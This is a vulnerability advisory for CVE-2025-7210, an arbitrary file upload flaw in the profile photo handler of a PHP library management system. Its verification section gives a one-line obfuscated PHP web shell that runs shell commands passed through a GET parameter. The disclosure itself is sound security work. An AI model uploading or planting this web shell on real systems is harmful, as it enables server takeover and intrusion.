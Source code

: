 **Title:** Library Management System In PHP With Source Code (Ver.2.0) admin\profile_update.php arbitrary file upload

**Vendor:** Fabian Ros [Library Management System In PHP With Source Code (Ver.2.0) - Source Code & Projects](https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/)

**CVE:** CVE-2025-7210

**Affected Product Version**: 2.0

**Vulnerability Type**: Arbitrary file upload

**Audit:**

`photo` is uploaded without sanitizing 

![image-20250702161013471](./images/image-20250702161013471.png)

**Verify**

Payload: 

```php 
<?php $a = 'sys'.'tem'; $a($_GET['pas']); ?>
```



successfully uploaded

![image-20250702161439980](./images/image-20250702161439980.png)

![image-20250702161855982](./images/image-20250702161855982.png)
